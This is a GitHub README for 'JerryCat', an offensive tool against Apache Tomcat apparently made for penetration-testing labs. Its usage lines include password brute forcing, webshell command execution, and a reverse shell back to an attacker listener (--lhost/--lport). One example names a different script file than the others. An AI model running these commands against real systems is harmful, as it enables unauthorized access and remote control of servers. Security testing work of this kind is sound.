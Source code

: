 <h1 align="center">JerryCat 🐭<h1>
<p align="center">
  <img alt="Version" src="https://img.shields.io/badge/version-1.0-orange.svg?cacheSeconds=2592000" />
  <a href="https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE" target="_blank">
    <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-yellow.svg" />
  </a>
  </br>
  <a href="https://twitter.com/Talace_" target="_blank">
    <img alt="Twitter: Talace_" src="https://img.shields.io/twitter/follow/Talace_.svg?style=social" />
  </a>
  <a href="https://twitter.com/LeandreOnizuka" target="_blank">
    <img alt="Twitter: LeandreOnizuka" src="https://img.shields.io/twitter/follow/LeandreOnizuka.svg?style=social" />
  </a>
</p>

## Features/Mode ⚒️

 - [x] Brute Force (brute)
 - [x] Webshell (exec)
 - [x] Reverse shell (reverse)

## Setup ✨

Clone & install dependencies
```sh
$ git clone https://github.com/TheF0rceAwak5ns/JerryCat.git && cd JerryCat && pip install -r requirements.txt
```

## Usage - Unauthenticated attack 

### Brute Force
```sh
$ python3 jerrycat.py brute http://10.10.10.95:8080/ -w /user/share/wordlists/rockyou.txt
```

## Usage - Authenticated attack

### Webshell
```sh
$ python3 jerrycat.py exec http://10.10.10.95:8080/ -u tomcat -p s3cret
```

### Reverse shell
```sh
$ python3 talace.py reverse http://10.10.10.95:8080/ -u tomcat -p s3cret --lhost 10.10.14.9 --lport 4444
```


